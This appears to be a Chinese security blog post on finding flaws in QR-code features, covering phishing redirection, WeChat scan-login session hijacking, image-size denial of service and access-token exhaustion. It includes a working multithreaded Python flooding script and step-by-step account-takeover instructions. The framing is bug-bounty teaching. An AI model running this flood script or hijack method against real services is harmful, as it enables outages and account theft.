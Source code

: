 #  漏洞挖掘之二维码功能点   
 迪哥讲事   2024-06-21 20:30  
  
**免责声明**  
  
由于传播、利用本公众号红云谈安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号红云谈安全及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！本文为连载文章欢迎大家关注红云谈安全公众号！  
  
  
在漏洞挖掘过程中我们经常会遇到二维码，二维码出现的场景主要有支付状态下、扫描登录、扫码关注、扫码分享、扫码下载。针对生成二维码这个功能会产生什么样的漏洞呢？请让我一一给你讲解！  
## 二维码劫持（方式一）  
  
在我们进行支付时一般会出现一个二维码，还有进行扫码登录，微信分享篇文章时都会出现！很多生成这个二维码链接后面都会有一个URL地址，根据这个URL地址来生成二维码，你看下列案例。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRdDDVttyC8BoHzQrXI3cS5JiaFx2zm9KAu6e0BD4691QwIdicKqib0iaMog/640?wx_fmt=png "")  
  
生成一个二维码后，我们复制二维码地址，然后可以看到后面data值为一个URL地址，我们只需要将URL地址替换为钓鱼网站地址，对方扫码就能够跳转到钓鱼网站，这里添加为百度地址，用手机扫码后就会成功跳转到百度！这个一般是低危！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRKeRgvcBA85Z7dVSaicG44MPhVqMYcJmP6k5WNRc5SeX4iahLial4YJwIg/640?wx_fmt=png "")  
## 二维码劫持（方式二）  
  
不知道你会不发现就是非常多的登录框，都支持微信扫码登录，而在这个微信扫码登录的过程会出现什么样的安全问题呢？一般流程![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PR3XG52lFyToAMjYntG7v5YUViaCQOl3VzeoA0IUwtdY1iahbuT9cmiac0Q/640?wx_fmt=png "")  
  
  
首先出现一个微信扫码登录![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRHEP3HHJ1ZibHGB7EYfkZ9Jej5KHribicBUBXxZOF4fBibER3fjKRpMJGRA/640?wx_fmt=png "")  
使用微信扫完码后会跳转到一个微信公众号，点击关注公众号  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRr6jEiaBKrpIialxIg7T5lfroFtpjHEbdQJgicJoD2OBAJxxnQIvvaZo9Q/640?wx_fmt=png "")  
关注玩公众号后会出现，类似以下需要点击授权界面![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRnScoys2bC0rvRicUa2LX5hmic9CQf6IZVEOCGu5cBUn5Cvx7ic5KACicbQ/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRRxnibc8yfa8qEKsjAwbmedGJtWtpFzZt0mFDKN72qdpMLHa0ouW4cEw/640?wx_fmt=png "")  
  
当我们点击授权的时候，就会发现浏览器Web端页面跳转，登录成功！回到最初的微信扫码登录点，浏览器会一直发送请求数据包进入一种循环状态，判断是否扫描了二维码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRWGWQAbIIvOHYwx6Z6vM68zHHCibN33QPbdGEUMcxYE7WqHF3fut5NhA/640?wx_fmt=png "")  
我们任意访问一个上面的请求包，你会发现post body的其中一个参数，“webSessionId”，记住这个值：819xxxxxxxxx![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRDVhyjOBjsvHSVtSHbALMVFk7ib3aMH2o8Yl0EpV0icCWEmiazOxSXFMCA/640?wx_fmt=png "")  
接下来我们去微信公众号中分析，先点击授权并抓包，你会发现有一个以下链接
https://xxx.aaa.com/api/login/auth?webSessionId=819xxxxxxxxx你可以惊奇的发现点击授权和我们浏览器中获取的值相同，这边有什么用呢？这是一个值得我们思考的问题，受害者扫码我们能否代替对方“点击授权”，我们有了webSessionId，可以自己构造点击授权的URL，然后使用自己的微信聊天框发送给自己的电脑，然后点击授权。模拟攻击思路：先发送一个链接给自己的电脑对话框好直接访问![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRaFLGgM7qhGA8uwtFBU5KmEia43M3AqEzicMmtFV9ToM2sIlqLnnZ5N8g/640?wx_fmt=png "")  
发送web端登录的二维码图片给受害者（这边有个限制就是必须在该二维码的有效时间扫描才有效）这要对方扫码后![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PROrwdsgvgGdfkCRA3zW89fVAXwMOv0NcN3fI4Qt7SiaWMDqIQhU1icY8g/640?wx_fmt=png "")  
只要一点击前往图中包含的公众号，不管他后面如果操作都不用去管，我们只要不断的去点击上方对话框的链接![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRKzb9ZUvrnCbrv1nLpTb0IDuicDFbWX5ROPXuP8FjpnuILK0ZzribxttA/640?wx_fmt=png "")  
看是否会到确认这一步即可，只要我们能够到这一步就能够获取到对方的账号权限。![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRrwoAwnRDYwkkpJMTcvLIKWmPRvCGlNtuLjt8JDh2ry1y8DPSOnvw2g/640?wx_fmt=png "")  
  
## 拒绝服务漏洞（高危）  
  
点击二维码登录并抓包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRKwPCcUUXFJBwibqxUZZ5Vvqej4GVJZPiaR2kOicgyNhVzNKiaDLRtkJ7tw/640?wx_fmt=png "")  
接口如下:
https://wwww.xxx.com/xxxx/xxxx/v1/xxxx?width=162&height=162
该请求上面width和height参数控制服务器返回图片的大小  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRiaDMgib0nes6t35qE9sB2FQM1KXgGWJM0ougvCwhAW7UBbFP8piaibFwvA/640?wx_fmt=png "")  
增大width和height值发现返回的数据也发生了变化、并且响应的时间也变长了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRWib3Vp4IAI9RibgbuB84Vwgf5AwmVLWILibEOfJWhD8Q92VA4QOW6ibH4Q/640?wx_fmt=png "")  
通过测试width和height最大为14000，要返回如此多的数据将是一个巨大的过程，直接使用Burp或者编写脚本进行批量请求就能够造成整个服务器拒绝服务，再其他产商也发现类似的漏洞，验证的时候可以这样排除干扰、使用2个网络：一个手机数据流量、一个是电脑所连接的WiFi、电脑进行ddos、手机使用数据流量、访问该链接，即可证明。将width和height值调到最大进行跑即可  
```
import requests
import threading
import time

"""    @ 单线程为测试,可忽略    @ 使用时修改url即可    @ 可根据实际情况修改访问次数,默认为10000    @ 仅供学习参考,请勿实施攻击"""


# 访问指定Url
def requser():
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36'
    }
    # 将参数的设置为最大临界值的链接
    url = "https://www.xxxx.com/xxxx?width=14000&height=14000"
    # url = "https://www.baidu.com/"
    req = requests.get(url=url, headers=headers)
    print("resuest Success!")


# 单线程访问
def single_thread():
    for i in range(50):
        requser()
        print(f"现在是第{i}次请求网页")


# 多线程访问
def multi_thread():
    print("multi_thread begin")
    threads = []
    for i in range(10000):  # 10000为访问次数,可根据实际调整
        threads.append(
            threading.Thread(target=requser)
        )
    print(threads)
    for thread in threads:
        thread.start()

    for thread in threads:
        thread.join()
    print("multi_thread end")


if __name__ == '__main__':
    # 单线程
    # single_thread()
    # 多线程
    start = time.time()
    multi_thread()
    end = time.time()
    t = end - start
    print(f"multi thread cost:{t} s")

```  
  
为防止服务器瘫痪这边我只是跑了几秒钟做了一个简单的测试然后马上关闭了,使用手机进行访问，直接一直加载中，整个服务器瘫痪，用到该服务器下的所有接口将全部不能用，危害极大，这边因为只跑了几秒，所以服务器很快就恢复了，这边要跑的时候记得跟产商沟通别瞎跑，小心服务器真的给你跑蹦了！一般说明到上面不用跑也能说明危害了，产商需要进一步证明的话就直接跟产商沟通。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRppsBH6cOQLX1vZ0UMmv5SFfMQJIHxlDRfLl3z7g3aIkXBwG8s0TuOA/640?wx_fmt=png "")  
## 小程序扫码登录  
  
该功能点是通过微信小程序进行扫码登录，先点击个人登录抓个包试下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRcENpxSZnvouqLYgOdd997oBR7ZXN7dps3K24c1BcibNRaJVrQJUUqEw/640?wx_fmt=png "")  
  
在这里插入图片描述  
  
抓到这个接口数据包，返回一大串加密数据，该接口的字面意思就是获取微信的accesstoken![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRibiaJr8rglnXl0KVtnDFTE2LFjibGulmicEMWSSiaHslEtdyC1icoAibT1icOw/640?wx_fmt=png "")  
  
  
现在系统有太多这样使用微信小程序扫码登录的功能点了，所以我决定好好的去看看开发文档，以后说不一定能挖到非常多洞。通过开发文档了解到accesstoken是微信小程序的调用命脉![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRhQic6O8XOyJ1lmIviamdD6OTebTIygl94WFT1dutWrLLwuajibGxRVTKQ/640?wx_fmt=png "")  
  
  
通过抓取的数据包知道上面的个人登录功能点是先获取accesstoken、再调用accesstoken来后去生成二维码。这里直接就获取微信小程序的accesstoken了、相当于无需知道appid和APPsecret就可以拿到accesstoken了，这里补充一下知识点。根据小程序开发手册，如果你获取到appid和secret的话那么就可以直接获取到accesstoken  
```
https://api.weixin.qq.com/cgi-bin/token?grant_type=client_credential&appid=APPID&secret=APPSECRET

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRiaanrrZYcmQBc3lmfx7CPbYsChA43ucFrQy5BltqiaSBXGOIJVohdLIg/640?wx_fmt=png "")  
  
在这里插入图片描述  
  
利用该accesstoken去在线开发者工具平台上传一张图片证明accesstoken是微信小程序的accesstoken
如下：上传成功：![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRndiaSCb5EsYKo55vxXYsDKx2goQLVPR6Ul7heCGVBLgibcv9QML8ewHA/640?wx_fmt=png "")  
后续可以根据开发者文档调用很多微信小程序的接口、危害大。还有微信开发者文档规定accesstoken一天只能获取两千次、可以通过该接口不断获取接口accesstoken、从而导致奔溃、后续只要有用到accesstoken的功能点和小程序都会无法使用![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRicAiaOyZcfMQc0Thtw6emWkXe3AkEaTMlyFeDcBVicSrDlibRWPm8QiblvQ/640?wx_fmt=png "")  
为了不影响业务在快凌晨12点的时候进行了测试复现![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRPRbRTicvUj4rlUmw3kmqvWqu5Ie6HdGIVm5dWbPkfN4y8lQYfDTUkGQ/640?wx_fmt=png "")  
Burp不断请求、一分钟不到就获取不到accesstoken![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRiaCwzAicuiciccdgaYPJ6kolFwcU39TK9wJTX8tPGp6BuZWuh18eyFJ8jg/640?wx_fmt=png "")  
尝试进行登录，已经无法获取到二维码了、并且很多内容都是需要登录才可以进行查看的，危害非常大。![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PR7nlovquvwKnKzY3p2BZyf9xwCnbencyic4uUEToTibDpYurG2KKJ3Y3A/640?wx_fmt=png "")  
  
  
如果你是一个长期主义者，欢迎加入我的知识星球，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款前面有同学问我有没优惠券，这里发放100张100元的优惠券,用完今年不再发放  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7N5nMaJbtnMPVw96ZcVbWfp6SGDicUaGZyrWOM67xP8Ot3ftyqOybMqbj1005WvMNbDJO0hOWkCaQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5jYW8icFkojHqg2WTWTjAnvcuF7qGrj3JLz1VgSFDDMOx0DbKjsia5ibMpeISsibYJ0ib1d2glMk2hySA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 往期回顾  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486912&idx=1&sn=8704ce12dedf32923c6af49f1b139470&chksm=e8a607a3dfd18eb5abc302a40da024dbd6ada779267e31c20a0fe7bbc75a5947f19ba43db9c7&scene=21#wechat_redirect)  
  
[dom-xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)  
  
  
[年度精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
[](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
  
  
[Nuclei权威指南-如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试设置功能IV](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486973&idx=1&sn=6ec419db11ff93d30aa2fbc04d8dbab6&chksm=e8a6079edfd18e88f6236e237837ee0d1101489d52f2abb28532162e2937ec4612f1be52a88f&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试注册功能以及相关Tips](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
  
